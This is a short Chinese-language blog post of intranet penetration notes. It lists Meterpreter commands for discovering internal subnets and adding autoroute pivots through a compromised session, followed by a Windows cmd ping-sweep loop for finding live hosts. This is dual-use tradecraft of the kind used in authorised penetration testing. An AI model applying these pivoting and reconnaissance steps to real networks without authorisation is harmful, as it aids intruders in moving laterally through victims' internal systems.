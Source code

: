 ```yaml
---
layout: post
title: "内网渗透总结（持续更新）"
date: 2019-5-24 11:49:43
author: co0ontty
categories: 渗透 ALL
tags: 渗透 ALL 
---
```

## 添加路由：
### 获取内网网段地址：
```shell
meterpreter > run get_local_subnets
```
###  添加去往目标网段的转发路由：
```shell
meterpreter > run autoroute -s 172.17.0.0/24
```
### 查看路由添加状况：  
```shell
meterpreter > run autoroute -p
```
### 使用：  
将添加路由完成的meterpreter进程添加到backgroup，让回话在后台持续运行   
使用相应的脚本对目标内网进行探测  
## 内网主机发现：
### cmd：
for /l %p in (1,1,254) do @ping -l 1 -n 3 -w 40 192.168.1.%p & if errorlevel 1 (echo 192.168.1.%p>>na.txt) else (echo 192.168.1.%p>>ok.txt)  